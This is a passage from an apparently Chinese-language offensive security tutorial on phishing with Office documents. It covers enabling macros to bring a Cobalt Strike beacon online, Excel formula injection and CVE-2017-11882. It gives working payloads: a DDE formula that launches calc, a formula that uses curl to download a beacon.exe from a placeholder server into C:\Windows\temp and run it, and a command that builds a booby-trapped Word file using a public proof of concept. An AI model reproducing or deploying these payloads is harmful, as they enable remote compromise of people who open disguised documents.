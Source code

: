 步骤三：再次打开文件后提示是否启用宏，点击启用就会上线 cs

[![](assets/1701612327-84d7b2c4dc9ace94d1ecb64630e936bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710172929-44ef6c9c-1f04-1.png)

[![](assets/1701612327-da27f19d5b0de4a2ff55abf86f435b20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710172947-4fa4658e-1f04-1.png)

### 0x04.Excel 注入

Excel 注入是一种将包含恶意命令的 excel 公式插入到可以导出 csv 或 xls 等格式的文本中，当在 excel 中打开 xls 文件时，文件会转换为 excel 格式并提供 excel 公式的执行功能，从而造成命令执行。

**利用 excel 注入弹出计算器**

注入代码：`=cmd| '/c calc'! '!A1'`

[![](assets/1701612327-42a4d41e7bf4381999057fa1b7a61679.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173033-6b0ceb16-1f04-1.png)

[![](assets/1701612327-84dfae359d459a38cf24c0e267858c59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173041-700b042c-1f04-1.png)

**利用 excel 注入上线 cs**

步骤一：使用 cs 生成 exe 后门，并放到服务器上

[![](assets/1701612327-5750055efa3d939a1edc106f59d283a1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173056-790edf6c-1f04-1.png)

步骤二：更换恶意代码

`=cmd| '/c curl http://xxx.xxx.xxx.xxx/beacon.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe' ! 'A1'`

[![](assets/1701612327-47803f3e39ec33241d1c1d1ce6512bbb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173202-a06f2b84-1f04-1.png)

当双击打开该 excel 时就会执行恶意代码下载 cs 后门并运行，上线 cs

[![](assets/1701612327-51127911c02107e3362c40809d377c35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173211-a5bac094-1f04-1.png)

### 0x05.CVE-2017-11882

cve-2017-11882 漏洞也是 word 钓鱼的一种方式，相比宏病毒更加的隐蔽，把 word 伪装成某某通知文件，目标点击后就直接可以直接上线。

利用 cve-2017-11882 弹出计算器：

下载 poc：[https://github.com/Ridter/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

生成带有病毒的 word 文件

```plain
python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```

[![](assets/1701612327-44181b35c0836b28e610b8afab0eba0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230710173332-d5d526f2-1f04-1.png)

双击 test.doc，弹出计算器
